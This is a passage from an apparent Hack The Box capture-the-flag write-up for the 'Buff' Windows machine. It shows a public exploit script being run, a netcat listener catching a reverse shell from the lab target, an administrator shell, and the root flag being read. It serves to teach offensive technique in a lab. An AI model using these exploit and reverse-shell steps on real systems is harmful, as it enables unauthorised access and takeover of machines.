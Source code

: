 I'll start a netcat lister and run the exploit.

```shell

┌──(sid㉿kali)-[~/…/flags/hackthebox/windows-machines/buff]
└─$ python 48389.py
```


```shell
┌──(sid㉿kali)-[~]
└─$ rlwrap nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.198] 49689
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
buff\administrator

C:\Windows\system32> type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
8052f9f9e0779299f769fe62e29e8336

C:\Windows\system32>
```
And that was the box, hope you learned something new :D
